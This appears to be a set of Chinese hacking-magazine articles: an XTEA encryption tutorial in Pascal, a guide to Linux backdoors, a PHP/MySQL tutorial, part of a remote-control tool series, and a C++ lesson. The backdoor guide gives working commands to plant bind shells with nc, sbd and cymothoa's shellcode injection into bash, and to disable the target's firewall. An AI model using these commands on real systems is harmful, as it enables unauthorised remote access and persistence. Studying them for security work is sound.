function XTeaDecryptStr(const Msg, Pwd: string): string;

implementation

const
  // XTEA 算法指定的常数，和 TEA 算法是一样的
  DELTA: DWord = $9e3779b9;
  // 循环次数，可以修改，和 TEA 一样，标准的也是 32
  N = 32;

procedure XTeaCrypt(var V: TXTeaMsgBlock; const K: TXTeaKeyBlock);
var
  I: LongWord;
  S: Int64;
begin
  S := 0;
  for I := 0 to N - 1 do begin
    // 加密主运算
    Inc(V[0], (V[1] shl 4 xor V[1] shr 5) + (V[1] xor S) + K[S and 3]);
    Inc(S, DELTA);
    Inc(V[1], (V[0] shl 4 xor V[0] shr 5) + (V[0] xor S) + K[S shr 11 and 3]);
  end;
end;

procedure XTeaDecrypt(var V: TXTeaMsgBlock; const K: TXTeaKeyBlock);
var
  I: LongWord;
  S: Int64;
begin
  ...
end;
```

```pascal
S: Int64;
begin
  S := DELTA * Int64(N);
  for I := 0 to N - 1 do begin
    // 解密主运算
    Dec(V[1], (V[0] shl 4 xor V[0] shr 5) + (V[0] xor S) + K[S shr 11 and 3]);
    Dec(S, DELTA);
    Dec(V[0], (V[1] shl 4 xor V[1] shr 5) + (V[1] xor S) + K[S and 3]);
  end;
end;

function XTeaCryptStr(const Msg, Pwd: string): string;
var
  V: TXTeaMsgBlock;
  K: TXTeaKeyBlock;
  MD5Pwd: TMD5Pwd;
  I, L, N: Integer;
begin
  // 计算用户输入密码的散列值
  MD5Pwd := MD5String(Pwd, MD_VERSION_5);
  L := Length(MD5Pwd);
  K[0] := 0; K[1] := 0; K[2] := 0; K[3] := 0;
  Move(MD5Pwd[0], K[0], L);

  I := 1; L := Length(Msg);
  if L > 0 then SetLength(Result, ((L - 1) div SizeOf(V) + 1) * SizeOf(V))
  else SetLength(Result, 0);

  while I <= L do begin
    V[0] := 0; V[1] := 0;
    N := L - I + 1; if N > SizeOf(V) then N := SizeOf(V);
    Move(Msg[I], V[0], N);
    XTeaCrypt(V, K);
    Move(V[0], Result[I], SizeOf(V));
    Inc(I, SizeOf(V));
  end;
end;

function XTeaDecryptStr(const Msg, Pwd: string): string;
begin
  ...
end;
```

```pascal
... string): string;
var
  V: TXTeaMsgBlock;
  K: TXTeaKeyBlock;
  MD5Pwd: TMD5Pwd;
  I, L, N: Integer;
begin
  MD5Pwd := MD5String(Pwd, MD_VERSION_5);
  ...
  Move(Msg[I], V[0], N);
  XTeaDecrypt(V, K);
  ...
end;
```

- 放上三个 Label 控件，分别修改 Caption 为“明文：”“密文：”和“密码：”。
- 放上两个 Memo 控件，分别用于明文和密文编辑，设置两个 Memo 控件的 ScrollBars 属性为 `ssAutoBoth`，清空两个 Memo 控件的 Lines 属性。
- 放上一个 Edit 控件，用于密码输入，清空 Text 属性，设置 PasswordChar 属性为星号 `*`。
- 放上两个 Button 按钮控件，修改 Caption 属性，一为“加密”，一为“解密”。
- 按照图3所示，调整控件到相应位置。

然后我们需要在主界面所在的 Unit 中（默认是 unit1）包含 `xtea.pas` 单元，另外还要用到 Lazarus 自带的 `base64` 单元，写在 Unit1 的 uses 中即可。

```pascal
uses
  Classes, SysUtils, FileUtil, Forms, Controls, Graphics, Dialogs, StdCtrls, base64, xtea;
```

最后双击加密按钮控件，则在其 OnClick 事件中填写如下代码：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  tmpStr: string;
begin
  tmpStr := XTeaCryptStr(Memo1.Text, Edit1.Text); // 加密文本
  Memo2.Text := EncodeStringBase64(tmpStr);       // Base64 编码便于显示
end;
```

同样的，在解密按钮的 OnClick 事件中加入如下代码：

```pascal
procedure TForm1.Button2Click(Sender: TObject);
var
  tmpStr: string;
begin
  tmpStr := DecodeStringBase64(Memo2.Text); // Base64 解码
  Memo1.Text := XTeaDecryptStr(tmpStr, Edit1.Text);
  // 解密文本并显示
end;
```

再来就是程序主界面了：


图3

## 五、后记

写文章加编写程序我一共用了三周的空余时间。文章重写过两次，程序修改过无数次，也不知道我把问题讲清楚没有。如果大家发现 bug，Email（xzsunmail-qq@yahoo.com.cn）给我，我会加以改正！

我参考了好多人的文章和程序代码，由于不是论文就没有一一列举，在这里说声感谢。

好了，程序基本上已经完成了，剩下的就是打开 Project/Project Options，写上程序标题，换个好看的图标，改一下文件名，去掉调试编译选项等。具体的大家看我的源代码吧。

# Linux 后门技术

## 前言

想必大家已经熟悉了在 Windows 下使用各种后门了，从早期的灰鸽子开始，国内层出不穷的后门木马就不断地涌现。但是基于 Linux 平台的后门，想必各位读者还是有大一部分人没有接触过。Linux 平台也不乏许多优秀的后门，本文将用著名的 BackTrack 5 中自带的三个后门来进行讲解，希望开阔大家的视野。

## 瑞士军刀——NC

其实 NC 并不是一个后门程序，NC 原本是用来做网络方面工作的，但是它却天生具备后门功能，于是更是被广泛用在了后门上，并且也编译出了 Windows 平台上的版本。对于 NC 相信各位读者毫不陌生。不过在一般的 Linux 发行版中，后门功能是被删除了的，但是作为专用于渗透测试的 BackTrack 5，其自带的 nc 是具有后门功能的。

BackTrack 5 中的后门程序全部存储在“Applications->BackTrack->Maintaining Access->OS Backdoors”菜单中。但是 nc 不在其中，倘若我们想找到 nc 的位置，可以在终端键入以下命令：

```bash
root@bt:~# whereis nc
nc: /bin/nc /bin/nc.traditional /usr/share/.../man/man1/nc.1.gz
root@bt:~#
```

根据命令的执行结果，得知 nc 的可执行文件存储在 `/bin` 目录下。如果我们要在别的 Linux 主机上用 nc 当后门，一定要记得将 BackTrack 5 中 `/bin` 目录下的 nc 上传到对方主机，因为之前说过了，很多发行版的 nc 不具备一些特殊功能。

nc 同样也可以用于 Windows 平台上，并且 BackTrack 5 中也带有 Windows 版本的 nc。不仅是 nc，BackTrack 5 也内置了一些在 Windows 上使用的工具，它们都位于 `/pentest/windows-binaries/` 目录下：

```bash
root@bt:~# ls /pentest/windows-binaries/
databases  misc  pstools  sniffers
kartoffel  passwd-attack  scanners  tools
root@bt:~#
```

从返回结果来看，windows-binaries 目录下还有多个子目录。其他目录中的工具大家可以暂时先自己研究下，我们需要的 nc 位于 tools 目录下，名为 `nc.exe`。在这里，我演示一下 nc 作为后门的用法。我的目标机是一台 CentOS 5.6。

# 黑客研究院

我们先把 BackTrack 5 中的 `nc` 上传到 CentOS 中，可以通过上传到 Web 空间后，在目标机 `wget` 的方式下载；也可以用 `sftp`，`sftp` 也是我爱用的方法。以下是执行过程，请读者注意加粗并标记编号部分：

```bash
root@bt:~# ping 192.168.1.3

(1)
PING 192.168.1.3 (192.168.1.3) 56(84) bytes of data.
64 bytes from 192.168.1.3: icmp_seq=1 ttl=64 time=3.83 ms
64 bytes from 192.168.1.3: icmp_seq=2 ttl=64 time=0.531 ms

--- 192.168.1.3 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 0.531/2.181/3.831/1.650 ms

root@bt:~# sftp 192.168.1.3

(2)
Connecting to 192.168.1.3...
The authenticity of host '192.168.1.3 (192.168.1.3)' can't be established.
RSA key fingerprint is fe:de:95:c0:2e:d2:11:34:c9:25:8f:64:b6:a3:11:74.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.3' (RSA) to the list of known hosts.
root@192.168.1.3's password:

sftp> ls

(3)
a.tar        adore-ng
adore-ng.tar anaconda-ks.cfg   ddrk
ddrk.tgz     enyeikm-1.3       enyeikm-1.3.tar.gz
install.log  install.log.syslog
nc           test              wnps-0.26
wnps.tgz

sftp> put /bin/nc ./nc

(4)
```

```bash
Uploading /bin/nc to /root/./nc
Couldn't get handle: No such file or directory

sftp> put /bin/nc nc
Uploading /bin/nc to /root/nc

100%   21KB  21.6KB/s  00:00

sftp> ls

(5)
a.tar        adore-ng
adore-ng.tar anaconda-ks.cfg   ddrk
ddrk.tgz     enyeikm-1.3       enyeikm-1.3.tar.gz
install.log  install.log.syslog
nc           test              wnps-0.26
wnps.tgz

sftp>
```

在上方过程（1）中，我首先 `ping` 了一下目标机是否通畅，IP 地址是 192.168.1.3；接着在（2）中，我用 `sftp` 登录到目标机，输入一次 `yes`，接着键入登录密码（默认是 root 的，只是演示用）；（3）中我首先用 `ls` 命令看了下目标机 home 中的文件；（4）中通过 `put` 命令上传本地 `/bin/nc` 到远程目录，接着在（5）中再次用 `ls` 命令，可以看到 `nc` 成功上传了。

接着我们来看看 `nc` 的用法，各位玩 Linux 的工具一定要多利用帮助啊，键入 `nc -h`，多余的文字我就删除了，只留下最主要的：

```bash
connect to somewhere: nc [-options] hostname port[s] [ports]
listen for inbound:  nc -l -p port [-options] [hostname] [port]

options:
  -e shell   program to exec after connect (use /bin/sh)
  -l         listen mode, for inbound connects
  -p port    local port number
```

我们注意“listen for inbound”这行，这行提示我们应该如何监听端口。既然在目标上，我们首先应该监听端口，然后再在咱们的 BackTrack 5 中连接到这个端口。`-l` 参数表示监听，`-p` 表示指定一个监听端口，`-c` 是最有意思的功能，它可以让我们远程执行 shell 命令。咱们在目标机器上试下：

```bash
[root@lx ~]# ./nc -l -p 8899 -c /bin/sh
```

接着在本地 BackTrack 5 中连接，使用格式是 `nc 目标IP 端口号`：

```bash
root@bt:~# nc 192.168.1.3 8899
```

之后提示 `(UNKNOWN) [192.168.1.3] 8899 (?) : No route to host`。遇到这种问题我们不要纳闷，是 CentOS 防火墙问题，在 CentOS 里执行 `setup` 命令，找到“Firewall configuration”，把“Security Level”改成“Disabled”就没问题了。再次连接，只见什么也没返回，却有光标闪烁，这证明已经成功了，不信打个 `ls` 命令试下？

## cymothoa

cymothoa 是名副其实的后门了，不像 nc 只是一个带有后门功能的网络管理工具了。国内介绍它的文章暂时还没怎么发现，但经过笔者使用，确实是一个强悍无比的后门，就纳闷怎么没多少人介绍呢。

通过刚才我介绍的后门存放位置找到它，直接运行，它自动在终端里执行了，并且显示了帮助说明。但是，种植到目标机器的时候，我们还需要先编译这个后门，因为直接传过去的可执行文件并不一定能够运行成功啊。为了保险，我就从编译开始。有兴趣的还可以阅读下它的源码。

通过菜单运行 cymothoa，我们已经处于它所在目录下了，通过 `ls` 命令，可以看到很多 `.c` 和 `.h` 为后缀的文件，这些是它的源文件（如图1）：


整个过程是：将源文件打包成压缩文件后上传到目标机，然后解压，最后编译并运行。

压缩过程如下：

```bash
root@bt:/pentest/backdoors/cymothoa# cd
(1)
```

```bash
root@bt:/pentest/backdoors# tar -cf cymothoa.tar cymothoa/
(2)
root@bt:/pentest/backdoors# ls
(3)
```

在（1）中，我们切换到上一级目录，然后在（2）中执行 `tar` 命令，通过加参数 `cf` 进行文件夹打包，`cymothoa.tar` 是打包后的压缩包名；`cymothoa` 则是将要参与打包的目录。打包后通过（3）中的 `ls` 命令，可以看到压缩文件的存在了。最后通过前面讲的 `sftp` 的方法将其上传到目标机。

在 CentOS 中执行如下：

```bash
[root@lx ~]# tar xf cymothoa.tar
(1)
[root@lx ~]# cd cymothoa
(2)
[root@lx ~]# make
(3)
cc cymothoa.c -o cymothoa -Dlinux_x86
```

在（1）中，我们通过 `tar` 跟 `xf` 参数解压上传过来的压缩包，（2）中进入解压后的目录，通过（3）中的 `make` 命令编译 cymothoa，之后就可以在目录下看到一个名为“cymothoa”的可执行文件了。

既然成功编译，接下来我们就应该将编译后的可执行文件拷贝到单独的一个目录，这个过程由聪明的读者随意解决吧。

在正式使用之前，我先简单介绍下它的原理：它通过向指定进程（bash 进程）注入特定功能的 shellcode 代码。一般我都是用绑定一个端口的 shellcode，本文演示也依旧使用这个，我们依旧看下帮助：

```bash
root@bt:/pentest/backdoors/cymothoa# ./cymothoa -h
Usage:
  cymothoa -p <pid> -s <shellcode:number>
[options]
main options
  -p    process pid
```


其中（1）为指定一个进程 ID，一般来说都会选择 bash 的进程。执行 `ps -s`（如图2）：


我们注意图2中最后一行最后的文字是“-bash”，其 PID 为 2358，我们就选定它。在注入到 bash 进程之前，我们得看下有哪些可用的 shellcode，（2）中 `-s` 参数后面跟 shellcode 的编号，编号通过（3）中跟 `-S`（大写 S）参数获得。执行如（4），返回的列表中有不少可选的 shellcode。为了节约版面，我就只贴出了编号为 0 的；读者可以自己尝试其他的。

在 CentOS 上，我们执行，其中 `-y` 跟自定义端口号：

```bash
[root@lx cymothoa]# ./cymothoa -p 2358 -s 0 -y 4444
```

执行结果输出如图3：看到“infected!!!”（被感染）字样则证明成功了。接着在 BackTrack 5 中用 nc 连接：

```bash
root@bt:~# nc 192.168.1.3 4444
```

接着依然是一个光标闪烁，但是可以执行系统命令了。


## 跨平台的 SBD

sbd 是本文中介绍的最后一个后门程序，它也是跨平台的。其 Windows 中的二进制文件存放在 `/pentest/windows-binaries/tools` 中，Linux 版的文件位置可以通过 `whereis` 命令查看，就不重复演示了。

sbd 跟 nc 差不多，但是更高级一点，这里我只演示基础的。同样请大家先看帮助，玩 Linux 程序，最重要的就是要学会看帮助啊。其实它的基本参数跟 nc 的差不多，依旧是通过 I/O 重定向，然后绑定端口，等待连接。

这里我简单说下所谓的 I/O 重定向：系统有所谓的标准输入和输出，比如 Linux 执行命令后，返回在终端上的那些文字就是标准输出；通过键盘键入命令，我们叫它标准输入。I/O 重定向就是将它的输出位置和接受输入的方法改变。也就是说，我们在 sbd 后门中，将输出结果通过网络传送给控制者，将控制者远程输入的命令作为程序的输入。

在 CentOS 上，执行以下命令监听端口，并改变 bash 的输入输出：

```bash
[root@lx ~]# ./sbd -l -p 1234 -e bash
```

其中 `-l` 参数表示监听；`-p` 指定一个监听端口；`-e` 表示将 bash 的输入输出重定向；如果是 Windows 平台，可以换成 `cmd.exe`。

在 BackTrack 5 下连接：

```bash
root@bt:~# sbd 192.168.1.3 1234
```

注意，是使用 sbd 连接，不是 nc。

## 结尾

为了普及大家 Linux 平台的安全技术，本文介绍了 3 个后门的基本用法，希望大家多琢磨琢磨，它们都还有很强大的功能，如有机会，单独撰文为大家详述。

## php实战攻略（7）

### ——SQL篇

彩月

大家好，上一章中我们简单地说了一下 MySQL 的基本操作，不过我们使用的 WampServer 是懒人用的东西。现在大家已经逐步入门，那么自然也应该认真学习一下 PHP 环境的搭建。我们在开发过程中需要用到三个东西：

- Apache 服务器，安装包可以从 http://httpd.apache.org 下载到，大家也可以直接从光盘中拷贝。
- PHP，可以从 http://www.php.net 下载到。
- MySQL，可以从 http://www.mysql.com 下载。

首先，安装 Apache 服务器，打开光盘中的安装包，可以看到纯英文版的一个向导，这里我们直接全部下一步就 OK。到向导第四步的时候出现三个文本框，一个是输入域名，一个是服务器名，一个是管理员邮箱，前两个我们直接输入 localhost，最后邮箱可以随便写一个。最后选择 Apache 的端口号，这里我就保持默认，就是 80。后面一路下一步，直到安装完成即可。


安装完成后我们可以看到右下角出现了 Apache 的图标。接下来安装 PHP，PHP 这里几乎是一路下一步就可以完成，不过这里选择组件的时候按需选取。这样一来我们的开发环境基本构建完成，不过还有 MySQL 要安装。对于 MySQL 的安装几乎没什么难度，最后配置部分选择服务器类型，我们是开发用，所以选择 Developer Server，然后设置 root 密码即可。

完了以后，我们就基本完成了环境的搭建，不过还有的东西要配置一下。首先，要在 Apache 服务器中配置对 PHP 的支持。我们打开 Apache 安装目录下 conf 文件夹中的 httpd.conf 文件，找到其中包含大量 LoadModule 的代码块，在最后添加几句代码。

第一句是对 PHP 动态链接库的引用：

```text
LoadModule php5_module "php安装目录\php5apache2_2.dll"
```

第二句是添加 PHP 文件的 MIME 类型：

```text
AddType application/x-httpd-php .php
```

第三句是设置 PHP 安装目录：

```text
PHPIniDir "php安装目录"
```

这里大家把 PHP 安装目录更改为实际安装目录即可。完成之后，还有两个地方需要修改。第一个：

```text
DocumentRoot "C:/Program Files (x86)/Apache Software Foundation/Apache2.2/htdocs"
```

注意这里后面路径可能会因为安装路径不同而不同，不过不影响，这里主要是设置我们的网站根目录。我的目录为：`E:\WorkSpace\WebWorkSpace\PhpWorkSpace`，将这句代码改为：

```text
DocumentRoot "E:\WorkSpace\WebWorkSpace\PhpWorkSpace"
```

第二个：

```text
<Directory "C:/Program Files (x86)/Apache Software Foundation/Apache2.2/htdocs">
```

同样的，将这里的路径改为我们现在工作区的路径即可。这样，我们的基本配置就完成了，注意这里我们要重启 Apache 服务器让配置生效。

为了测试我们的代码是否成功，我们在网站根目录下建立一个 PHP 文件，我建立为 index.php。里面的内容很简单，就是调用一个 PHP 的函数来显示 PHP 的基本信息，将如下代码复制到文件保存即可：

```php
<?php
    phpinfo();
?>
```

接下来用浏览器访问 http://localhost/index.php，看到如图2所示的页面就表示我们的配置已经完成。这大致就是我们配置开发环境的过程了。

# 月下孤笔

自己配置而不是用现成的，肯定有好处，最大的一点，大家应该发现 MySQL 安装之后，开始菜单中就有了 MySQL 的界面管理工具，这个工具肯定要比 phpMyAdmin 方便多了。在配置的时候，有个问题要注意一下，就是在安装 PHP 中会让大家选择要安装的模块，那么我们尽量保持默认，安装程序会判断电脑上是否适合安装某些模块。如果手动选择，但是电脑不满足安装该模块的条件，那么可能造成 PHP 环境无法启动，所以这里是要给大家提醒一下。还有就是在 PHP 安装过程中，向导会提示你输入 Apache 的根目录，如果在向导中选择了路径，那么 PHP 安装程序会自动添加 PHP 支持，就不用再去折腾配置文件啦。


图2

配置完成之后，我们就可以开始写代码啦。我们来看下 PHP 对数据库的操作函数吧。同样的，PHP 和 MySQL 连接，首先要获取数据库连接，获取数据库连接的函数如下：

```php
resource mysql_connect([ string $server [, string $username [, string $password [, bool $new_link [, int $client_flags ]]]]])

$server：服务器地址
$username 和 $password：用户名和密码
$new_link：是否打开新的连接
$client_flags：MySQL 客户端常量，一般保持省略即可
```

返回值呢，如果成功，则返回数据库连接，否则返回 false。现在我们来尝试连接下我们的数据库。我还是用的以前名为 Hackx 的项目。将 index.php 的内容改为以下代码：

```php
<?php
$link = mysql_connect('localhost','root','admin@yutec.net');
if ($link!=false) {
    echo '连接成功';
} else {
    echo '连接失败';
}
mysql_close($link);
?>
```

现在就来看我们执行结果吧。路径不用说了吧？访问 http://localhost/Hackx/index.php，输出结果很明显，我这里是成功。大家如果失败，请检查你的配置是否有问题。完成了，要不我们来试试建立个数据库看看？

在 PHP 帮助文档中提供了一个叫做 `mysql_create_db` 的函数，不过很可惜，这是假的，在现在的 PHP 版本中并不支持这个函数。不过是不是没有这函数就无法建表呢？如果无法建表，那我也就不会讲这问题了。不过既然没法用 `mysql_create_db`，那就要有相应的替代品。我们之前说过，控制数据库我们可以使用 SQL 语句，那么我们可以用执行查询的函数来执行建库的 SQL，就可以执行建库操作了。

```php
resource mysql_query ( string $query [, resource $link_identifier ] )
```

这个函数的参数大家应该都能看明白，不过防止有人功底比较差的，我说一下：第一个参数是我们的 SQL 语句，第二个是数据库连接。返回值呢，PHP 帮助文档大致是这样描述的：在成功执行 `SELECT/SHOW/EXPLAIN/DESCRIBE` 这几种语句时，返回值为查询结果的资源标识符；在成功执行其他语句的时候返回 true；如果执行失败，那就都返回 false。

在这里还有一个点要说下，为了能够看到 PHP 的报错信息，我们要在 PHP 安装目录下的 php.ini 配置文件中改动一个地方：`display_errors = Off`，这里要将 `Off` 改为 `On`。

好了，建库所涉及的知识点都在这里了。我们可以写代码了。复习一下建库的最基本代码：`create database DBNAME`。好，有这三点，我们就可以来写代码了，思路大家应该都很清晰：获取数据库连接，如果获取成功，执行建库代码。

```php
<?php
$link=mysql_connect('localhost','root','admin@yutec.net');
if($link!=false){
    if(mysql_query("create database Hackx",$link)){
        echo "建立数据库成功";
    }else{
        echo "建立数据库失败";
    }
}
?>
```

```php
}
else{
    echo '连接失败';
}

mysql_close($link);
?>
```

```php
<?php
$link=mysql_connect("localhost","root","admin@vvtec.net");
mysql_select_db("Hackx",$link);
$sql=
<<<EOF
create table user(
    id int not null, primary key,
    name varchar(20) not null
)
EOF;
if(mysql_query($sql,$link)){
    echo "执行成功";
}
mysql_close($link);
?>
```

执行结果不言而喻，我这里执行成功，执行后在界面管理工具中也能看到，如图3所示：

图3

建库完成，我们要来建表。建表的话，同样是用 mysql_query 这个函数，但是不知道大家有没有想到一个问题：我们建表的代码中并没有任何的指令可以指定数据库，那么数据库引擎是如何知道我们要在哪个数据库中建表呢？这就是下一个我们要学习的函数了：

```text
bool mysql_select_db ( string $database_name [, resource $link_identifier ] )
```

老样子，照顾新人，说下参数。第一个是要选择的数据库名称，第二个是数据库连接。返回值一目了然，成功为真，失败为假……不知道是错觉还是怎么滴……总觉得 PHP 的帮助文档很对我的胃口呀……好，废话不多说，一样的，我们用 PHP 来建表。不过这里有个事情说一下，建库的话，大家如果去租用数据库空间，那么很少会用到，服务商不会给你那么多权限；不过建表，那就是很多商业系统中必备的代码了。就比如说现在火辣辣的红的 Discuz 论坛系统，一个空空如也的数据库，在执行安装程序之后，将很快在数据库中建立大量的表。足以可见，这个代码是很有用的，毕竟要让一个用户去自己折腾数据库这那这那的，还不如多费心认真做个安装程序，省得客户弄错了一天来找你麻烦，哈哈。好了，又扯远了，贴下建表的代码吧。这里为了从简，我就不再做错误判断的代码了。大家以后自己开发的时候这些工作可要做足，不然吃亏的是自己哦。

咳咳，似乎看到大家在看到这段代码时迷茫的表情了。想必是从 `<<<EOF` 这里开始迷茫的，那么我这里简单地说一下吧。这是一种可以保持代码格式的写法，这句代码的意思其实和 `$sql="create table user(id int not null,name varchar(20) not null)";` 是一样一样的。不过这只是两个字段的建表代码，如果是几十个字段的建表代码，我估计是谁看着都晕死。所以这样写的话，可以最大程度上保持我们的代码原样，让我们的代码更加易懂。当然了，这种写法还有诸多好处，比如其中掺杂的变量可以不用字符串连接代码来弄，而是直接写，PHP 就能自己解析了。这种写法也是很有用的，在我们后面学习的逻辑和代码分离技术中同样要用。大家去看 Discuz 里面的代码，同样有很多这样的写法。嘿嘿，期待吧。不过，这也不是完全都是好处的，毕竟这东西也有一定的条件限制。我们来简单地说一下。

- 这种写法，业内称之为 HereDoc 技术。在 PHP 正规文档内并没有很正式的解释，但是确实可以用，这种表示方法 PHP 最后会直接将其解析为字符串。
- 关于写法，首先必须以 `<<<` 开始，后面的字母是不限制的，不过必须要有一个字母。
- 必须以 `<<<` 后面的字母加分号结束。以此处为例，这里我用 `<<<EOF` 开始，以 `EOF;` 结束。
- 如果字符串中需要直接嵌入变量，可以直接写变量名，PHP 会自动解析。
- 在字符串中的单引号和双引号不用手动进行转义即可使用。
- 虽然 PHP 会自动解析变量名，不过不能解析函数。
- 表示结束的 `EOF;` 必须顶头写，前面不能有任何代码或空格缩进。

上面就是这个写法的语法规范。条目有点多，但是遵守起来并不困难。大致就说到这里，执行成功之后，我们进入 mysql 界面管理工具，可以看到 Hackx 数据库下已经有了 user 表了，如图4。

好，最后我们来执行添加记录的代码。添加记录也是很简单的，这个没什么技术含量，代码如下：

图4

```php
<?php
$link=mysql_connect("localhost","root","admin@yytec.net");
mysql_select_db("hack",$link);

$sql="insert into user values(5,'张三')";
if(mysql_query($sql,$link)){
    echo "执行成功";
}
mysql_close($link);
?>
```

这里我已经添加了 5 条记录，因为期间出了点小问题，所以解决了一下。这里要提醒大家的是，数据库编码一定要和你的 PHP 文件编码相同。我一开始文件编码是 gbk，而数据库编码是 utf-8，所以出现插入中文数据出错；所以将编码修改后就没错了。不过修改为 utf-8 之后，部分浏览器解析会出现乱码，这个不用担心，后面我们用 HTML 指定了页面编码之后就不会出现乱码了。这也算是一点小小的风波吧。好了，最后一个问题解决。现在大家可能比较迷茫的就是对查询的操作，还有就是……如果 SQL 语句执行失败，那么我们看不到错误消息。这一点问题呢，就容我吊大家一下胃口，我们下一章接着说。

## 小小的实现一个远程（7）

## ——注册表的管理

影月

大家好，一年一晃又过去了，在这里影月祝大家新年快乐。在新的一年里，希望大家的技术都能在黑 X 的帮助下更上一层楼，每半年出现一次的黑 X 合订本也即将出现，以前错过稿子的 X 子们可以获取到月下孤笔以前的所有文章。月下孤笔 7 月进入黑 X，正好下半年合订本可以完全囊括所有内容。在这半年里，也感谢大家对黑 X 的支持，对月下孤笔的支持。希望大家的支持能一如既往地继续下去，谢谢。这篇连载很长，截止今日，依然只是完成小半部分功能，但是这想必也是有史以来我写得最详细的一套教程。玩 C++ 那么多年，不敢说精通，起码我对 C++ 也可以算是熟练了，而这篇连载，我倾注了不少的心血。我自己的一些编码习惯也深深融入文章之中，希望能对大家有所帮助。这半年的教程，写得也不容易，每个月几乎会花去我半个多月的时间准备稿子，不过只要能对大家有所帮助，我觉得这份努力花得值。

远控的开发，其实并不难。我想，开发一个远控，对一个初学者来说是一个不错的锻炼。以前我第一次开发远控的时候，重构了很多次。大家不用害怕重构，毕竟初学，重构是很正常的。软件最重要的不是编码，而是架构，一个好的架构可以让我们的编码轻松很多，对大家的架构设计理念也会有很大帮助。很多我交流的 X 子也说过自己以往的重构经历，都很坎坷，毕竟重构意味着自己一段时间的代码几乎全部荒废。不过荒废 != 白写，因为大家积攒了一份经验，这份经验或许可以让你以后少写很多代码，我个人觉得还是很值得的。也许有了这份经验，后面省下的精力会远远大于你写荒废掉的这些代码的精力。

好了，又扯了好多废话，我们现在正式进入今天的内容。上一章中我们把来回的数据包都处理完成，不过在客户端这边，我们还没有相应的处理，所以本章第一件事就是要对客户端进行处理。首先我们打开 Common.h，这里有我们的线程回调函数，我们要在这里添加对注册表管理的相关处理函数，那么这里我们就要添加一个名为 RegDataProc 的函数了。同样的，我把这个函数写在 Common.h 里面；同时，为了对注册表窗口进行处理，我们还要定义一个全局变量 pRegDlg，来存放该窗口的指针。因为我们的程序同一时间只能对一个服务端进行注册表管理，所以我们就只要这样做即可。当然了，如果要实现对多个服务端进行注册表管理，那就要更加完善逻辑。我随意而写，就只管理一个，多个的话，代码差不多，就看大家自己的啦。这里有一点要说一下，就是我们这个变量说是说要添加成全局的，但是实际上我们并不能这样做。

文件引用会出现错误。所以这里我们把这一个变量作为成员变量写进 CClientDlg 类中。这样我们同样可以通过主窗体指针来访问它而不至于出错……至于 RegDataProc，我的初步定义是这样的：

```cpp
void RegDataProc(SOCKET sock, SocketData data);
```

不过参数可能后期还有变动，这个后面再说吧。好了，既然构建到这里了……首先我们看下要用到的方法：

```cpp
BOOL ItemHasChildren(
    HTREEITEM hItem
) const;
```

这个不用说啦，传入父节点句柄，如果有子节点，就返回真，否则返回假。

```cpp
HTREEITEM GetChildItem(
    HTREEITEM hItem
) const;
```

这个是在有子节点的情况下执行，如果成功获取到了子节点，则返回子节点句柄，否则返回 NULL。

```cpp
HTREEITEM GetNextSiblingItem(
    HTREEITEM hItem
) const;
```

这个呢就是重头戏啦，传入一个子节点，得到下一个子节点句柄，这个用来遍历是很不错的。当然了，既然涉及到清空，那肯定还有 DeleteItem……我把执行结果贴出来看下吧：

任务管理器也可以看到程序内存的消耗情况……获取数据时在 0%-4% 波动……至于客户端的 CPU 占用率就不是很好了……总的来说，起码还在能接受的范围内吧。这里要提醒大家的是，在获取子键组装数据包发送的时候，千万要注意删除 new 出来的对象，接收的时候也要做好内存的回收……

图1

好了，获取键的部分已经完成，本来还计划这一章尽量写完注册表遍历部分，不过看来是又要泡汤了……唯独就是展开树控件事件中，我之前的代码有一点错误会导致死循环，这个是个很小的逻辑错误，源代码如下：

# 月下狐笔

```cpp
while(m_RegTree.GetParentItem(tempItem)!=NULL)
{
    keyPath=L"\\"+m_RegTree.GetItemText(tempItem)+keyPath;
    tempItem=m_RegTree.GetParentItem(hCurrentItem);
}
```

```cpp
while(nextChildItem!=NULL)
{
    m_RegTree.DeleteItem(nextChildItem);
    nextChildItem=m_RegTree.GetNextSiblingItem(childItem);
}
m_RegTree.DeleteItem(childItem);
```

这里第一个错误在于，不断获取当前项的父项，如果当前项有父项，则出现 BUG，导致不断获取当前项而无法跳出循环，更正为如下代码即可：

```cpp
while(m_RegTree.GetParentItem(tempItem)!=NULL)
{
    keyPath=L"\\"+m_RegTree.GetItemText(tempItem)+keyPath;
    tempItem=m_RegTree.GetParentItem(tempItem);
}
```

这是一个小错误要更正的，其他的也基本没什么问题。还有一个地方要更正的还是上面这段代码，这里本来是用于拼接路径的，不过写的时候疏忽了一点，我们这样拼接出的路径格式为“\路径1\路径2\路径3”，表面上看没什么错误，但是实际上呢，我们在注册表函数中是不能有第一个斜杠的，所以我在后面加了一句代码作为弥补：

```cpp
keyPath=keyPath.Mid(1);
```

这样就没问题了。这是在开发过程中我发现的影响比较大的错误，更正之后没什么问题。要是大家发现了其他的错误，欢迎大家更正。本章的内容大致就到这里，不过还有一些空余篇幅，我把本章新增的代码找出来解析一下：这是在树节点展开时新增的代码，用于清空树节点下的子节点：

```cpp
if (m_RegTree.ItemHasChildren(hCurrentItem))
{
    HTREEITEM childItem=m_RegTree.GetChildItem(hCurrentItem);
    HTREEITEM nextChildItem=m_RegTree.GetNextSiblingItem(childItem);
}
```

这就是遍历删除子节点的代码，注意第一句用于获取第一个子节点；而先不断循环删除第二个子节点，一直删除第二个，当没有第二个子节点的时候，说明就剩下一个子节点了，将这个子节点删除，就完成了。

这些代码想必对于大家来说应该不算难了，除此之外还有很多细节代码我也懒得说啦……本章的调试也是很重要的一个部分，那么多代码，而且上面的两个错误都出得很诡异，没有经验，根本很难调试……

最后说一下：我给的源代码是 Microsoft Visual Studio 2008 SP1 版本编写的，不是 SP1 打不开，版本小于 2008 也打不开。打不开项目文件，必然是属于这两种情况。……好了，本月的内容就到这里啦。我们下个月，再见！

## 基础C++（3）

大家好，上一章中我们学习了变量在内存中的表现形式和定义方式，本章呢，我们就要学习一些基本的对变量的操作了。电脑，学名称之为计算机，那么肯定要会计算啊。不过我这里说的计算可不是开始菜单->附件->计算器里面那个计算，而是通过代码来要求计算机进行计算。既然要进行计算，那么肯定少不了运算符。有个好消息和坏消息要告诉大家：我这人比较乐观，所以还是先说好消息吧。好消息就是本章的内容很多是和小学数学相通的，大家可以很容易地理解；坏消息是虽然相通，但是小学数学是绝对不够的。

